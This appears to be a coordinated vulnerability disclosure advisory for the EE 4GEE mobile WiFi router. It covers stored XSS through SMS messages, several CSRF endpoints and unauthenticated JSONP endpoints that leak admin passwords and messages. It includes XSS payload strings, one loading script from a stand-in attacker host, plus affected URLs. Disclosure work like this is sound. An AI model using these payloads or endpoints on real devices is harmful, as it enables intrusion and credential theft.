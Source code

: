 

EE 4GEE Wireless Router - Multiple Security Vulnerabilities Advisory
-------------------------------------------------
<b>Vendor:</b> EE
<br>
<b>Product:</b> 4GEE Mobile WiFi Router - Version EE60_00_05.00_25
<br>
<b>Product URL:</b> https://shop.ee.co.uk/dongles/pay-monthly-mobile-broadband/4gee-wifi/details
<br>
<b>Proof of Concept Writeup:</b> https://blog.jameshemmings.co.uk/2017/08/24/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities-writeup/#more-276
<br>
<b>Disclosure Timeline:</b>
27th July, 2017 at 21:32 GMT. Email sent with technical vulnerability information and PoC.
<br>
27th July, 2017 at 22:00 GMT. Response from EE devices manager, confirming receipt of PoC.
<br>
31th July, 2017 at  18:47 GMT. Update from vendor, patches being developed for reported issues.
<br>
1st August, 2017 at 10:43 GMT. Reply sent to vendor.
<br>
10th August, 2017 at 10:32 GMT. Update from vendor, patches still being developed.
<br>
18th August, 2017 at 12:11 GMT. Email sent to vendor asking for update/ETA.
<br>
18th August, 2017 at 12:15 GMT. Response from vendor, updates to be released on Monday.
<br>
18th August, 2017 at 12:30 GMT. Reply sent to vendor with device IMEI for online update process.
<br>
22nd August, 2017 at 15:54 GMT. Response from vendor, beta firmware released to verify  changes.
<br>
23rd August, 2017 at 21:29 GMT. Reply sent to vendor, vulnerabilities successfully patched.
<br>
24th August, 2017 at 09:32 GMT. Response from vendor, patch publicly released to customers.
<br>
24th August, 2017 at 12:00 GMT. Full disclosure via Blog.

Stored Cross Site Scripting (XSS) - SMS Messages:
-------------------------------------------------
<b>Attack Type:</b> Remote
<br>
<b>Impact:</b> Code Execution
<br>
<b>Affected Components:</b><br>http://ee.mobilebroadband/default.html#sms/smsList.html?list=inbox<br>
http://ee.mobilebroadband/getSMSlist?rand=0.19598614685224347
<br>
<br>
<b>Attack Vectors:</b> An attacker can exploit the vulnerability by sending a remote SMS message to the device with an XSS payload such as "<script src=http://payload.js</script>" which is executed upon the user viewing the SMS message within the admin panel "SMS Inbox" functionality. Additionally, self-XSS can be achieved by creating an XSS payload from the device its self within a text message, which could be chained with other vulnerabilities such as CSRF.
<br>
<br>
<b>Vulnerability Description:</b>The 4GEE Mobile WiFi Router is vulnerable to Stored Cross Site Scripting (XSS) within the "sms_content" parameter returned to the application's SMS Inbox webpage by the "getSMSlist" POST request, due to a lack of input validation and/or encoding. This exploit can be triggered by remotely sending an SMS message containing any XSS payload such as '"><script src=http://attacker.tld/r.js></script>' which upon clicking on the text message within the web application is successfully executed. 
<br>
<br>
Additionally, due to the other vulnerabilities identified within this device, such vulnerability can be chained with Cross Site Request Forgery (CSRF) using the Stored XSS payload to send an JavaScript XHR POST request to the "uploadSettings" webpage containing binary configuration data, allowing for total modification of device settings by an attacker.

CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:H/A:N/E:H/RL:O/RC:C (CVSS V3: 7.1 - High).

<b>Author:</b> James Hemmings - security@jameshemmings.co.uk
<br>
<b>Reference(s)</b>:
<br>
[1] https://blog.jameshemmings.co.uk/2017/08/21/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities

Cross Site Request Forgery (CSRF) - Multiple:
-------------------------------------------------
<b>Attack Type:</b> Remote
<br>
<b>Impact:</b> Code Execution
<br>
<b>Affected Components:</b>
<br>
http://192.168.1.1/goform/AddNewProfile?rand=0.376065695742409
<br>
http://192.168.1.1/goform/setWanDisconnect?rand=0.6988130822240772
<br>
http://192.168.1.1/goform/setSMSAutoRedirectSetting?rand=0.9003361879232169
<br>
http://192.168.1.1/goform/setReset?rand=0.021764703082234105
<br>
http://192.168.1.1/goform/uploadBackupSettings
<br>
<br>
<b>Attack Vectors:</b> ??????
<br>
<br>
<b>Vulnerability Description:</b> The 4GEE Mobile WiFi Router is vulnerable to multiple Cross Site Request Forgery (CSRF) vulnerabilities within various router administration webpages, due to the lack of robust request verification tokens within requests. An attacker could persuade an authenticated user to visit a malicous website using phishing and/or social engineering techniques to send an CSRF request to the web application, thus executing the privileged function as the authenticated user. In this case, due to the lack of authentication on certain privileged functions, authentication may not be neccessary.
<br>
<br>
The following webpages were identified to be vulnerable to Cross Site Request Forgery (CSRF) attacks:
<br>
<br>
AddNewProfile [2].
<br>
setWanDisconnect [3].
<br>
setSMSAutoRedirectSetting [4].
<br>
setReset [5].
<br>
uploadBackupSettings [6].
<br>
<br>
CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:U/C:H/I:H/A:N/E:H/RL:O/RC:C (CVSS V3: 6.8 - Medium).
<br>
<br>
<b>Author:</b> James Hemmings - security@jameshemmings.co.uk
<br>
<b>Reference(s):</b>
<br>
[1] https://blog.jameshemmings.co.uk/2017/08/21/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities
<br>
[2] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/AddProfileCSRFXSSPoc.html
<br>
[3] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/CSRFInternetDCPoC.html
<br>
[4] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/CSRFPocRedirectSMS.html
<br>
[5] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/CSRFPocResetDefaults.html
<br>
[6] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/uploadBinarySettingsCSRFPoC.html
<br>

JSONP Sensitive Information Disclosure - Multiple
-------------------------------------------------
<b>Attack Type:</b> Remote
<br>
<b>Impact:</b> Information Disclosure, Escalation of Privileges
<br>
<b>Affected Components:</b> 
<br>
http://192.168.1.1/goform/getPasswordSaveInfo
<br>
http://192.168.1.1/goform/getSingleSMSReport?rand=0.133713371337
<br>
http://192.168.1.1/goform/getSingleSMS?sms_id=1&rand=0.133713371337
<br>
http://192.168.1.1/goform/getSMSStoreState
<br>
http://192.168.1.1/goform/getSMSAutoRedirectSetting
<br>
http://192.168.1.1/goform/getSysteminfo
<br>
http://192.168.1.1/goform/getUsbIP?rand=0.13371337
<br>
<br>
<b>Attack Vectors:</b> ??????
<br>
<br>
<b>Vulnerability Description:</b> The 4GEE Mobile WiFi Router is vulnerable to multiple JSONP information disclosure vulnerabilities within various endpoints which retrieve and/or set data. The JSONP endpoints allow for unauthenticated information disclosure of sensitive configuration data, settings, administration passwords and SMS messages, due to the lack of robust and effective access control. An attacker could view such unauthenticated endpoints via the local WiFi network to gain access to the administration credentials, router configuration and/or SMS messages.
<br>
<br>
CVSS:3.0/AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N/E:H/RL:O/RC:C (CVSS V3: 8.1 - High).
<br>
<br>
<b>Author:</b> James Hemmings - security@jameshemmings.co.uk
<br>
<b>Reference(s):</b>
<br>
[1] https://blog.jameshemmings.co.uk/2017/08/21/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities
<br>
<br>

Disclaimer
-------------------------------------------------
The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
